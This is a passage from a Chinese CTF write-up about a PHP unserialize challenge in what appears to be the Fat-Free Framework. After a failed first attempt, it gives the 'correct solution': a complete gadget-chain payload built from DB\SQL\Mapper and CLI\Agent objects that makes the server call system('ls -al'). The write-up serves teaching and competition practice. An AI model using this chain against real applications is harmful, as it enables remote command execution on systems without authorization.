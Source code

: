 ```php
}
```

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200804111403.png)

然而在题目中它虽然执行了`WEB->send`方法（根据错误信息得知），但是并不会返回`/flag`（所有文件都读不了），希望有看到的师傅给个解答



### 正解

果然是我一句魔术方法里面没啥好用的这一句话断送了我的flag，有这样一个魔术方法

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200804114525.png)

它通过控制`$this->props`我们可以调用任意函数，那么我们只需要找到一个可控参数的位置就可以了

找到

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200804120508.png)

构造payload

```php
<?php
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
}


namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected
            $props=["quotekey"=>"system"],
            $adhoc=["ls -al"=>["expr"=>""]],
            $db;
        function offsetExists($offset){}
        function offsetGet($offset){}
        function offsetSet($offset, $value){}
        function offsetUnset($offset){}
        function getIterator(){}
        function __construct($val){
            $this->db = $val;
        }
    }
}
namespace CLI{
    class Agent {
        protected
            $server="";
        public $events;
        public function __construct(){
            $this->events=["disconnect"=>array(new \DB\SQL\Mapper(new \DB\SQL\Mapper("")),"find")];
            $this->server=&$this;


        }
    };
    class WS{}
}
namespace {
    echo urlencode(serialize(array(new \CLI\WS(),new \CLI\Agent())));
}
```
